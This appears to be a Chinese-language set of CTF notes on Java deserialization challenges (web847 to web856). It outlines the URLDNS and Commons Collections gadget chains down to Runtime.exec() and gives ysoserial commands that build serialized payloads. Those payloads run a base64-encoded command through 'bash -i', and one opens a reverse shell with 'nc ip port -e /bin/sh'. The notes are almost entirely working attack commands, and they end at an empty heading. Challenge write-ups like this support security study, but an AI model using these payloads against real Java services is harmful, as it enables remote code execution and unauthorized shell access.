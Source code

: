 反序列化链子:
HashMap::ReadObject()
	->HashMap.PutVal()
		->HashMap.hash()
			URL.hashcode()
				URLStreamHandler.hashcode()->getHostAddress()


cc3.2.2
/*
	Gadget chain:
		ObjectInputStream.readObject()
			AnnotationInvocationHandler.readObject()
				Map(Proxy).entrySet()
					AnnotationInvocationHandler.invoke()
						TransformerMap.decorate()
							ChainedTransformer.transform()
								ConstantTransformer.transform()
								InvokerTransformer.transform()
									Method.invoke()
										Class.getMethod()
								InvokerTransformer.transform()
									Method.invoke()
										Runtime.getRuntime()
								InvokerTransformer.transform()
									Method.invoke()
										Runtime.exec()

### web847

java7
`commons-collections 3.1`

```bash
java -jar ysoserial.jar CommonsCollections1 "bash -c {echo,要执行命令的base64编码}|{base64,-d}|{bash,-i}"|base64 
```

### web848
禁用了`TransformeredMap` 类

```bash
java -jar ysoserial.jar CommonsCollections3 "bash -c {echo,要执行命令的base64编码}|{base64,-d}|{bash,-i}"|base64 
```


### web849
`commons-collections 4.0`
cc4,可以使用2或4

```bash
java -jar ysoserial.jar CommonsCollections2 "nc ip port -e /bin/sh "|base64 
```

### web850

> commons-collections 3.1的库并对一些可能有危险的类进行了封禁，

cc3



### web856
